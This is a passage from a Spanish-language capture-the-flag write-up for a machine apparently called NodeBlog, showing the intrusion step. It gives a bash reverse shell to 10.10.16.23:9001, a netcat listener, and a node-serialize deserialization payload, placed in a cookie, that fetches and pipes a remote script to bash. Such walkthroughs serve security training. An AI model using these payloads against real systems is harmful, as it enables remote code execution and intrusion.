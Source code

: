 ## Intrusión

Nos `creamos` una archivo `shell`

```
bash -i >& /dev/tcp/10.10.16.23/9001 0>&1
```

Nos `creamos` un `servidor` http con `python` en el `mismo directorio` que el archivo `shell`

```
# python -m http.server 80
```

Nos ponemos en `escucha` por el `puerto 9001`

```
# nc -nlvp 9001
```

`Creamos` el nuevo `payload` y lo `urlencodeamos` usando `Burpsuite`

```
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('curl http://10.10.16.23/shell|bash', function(error,stdout, stderr) { console.log(stdout) });}()"}
```

```
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%63%75%72%6c%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%36%2e%32%33%2f%73%68%65%6c%6c%7c%62%61%73%68%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```

![](/assets/img/NodeBlog/image_11.png)

`Insertamos` el `payload` en el `campo` de la `cookie`

![](/assets/img/NodeBlog/image_12.png)
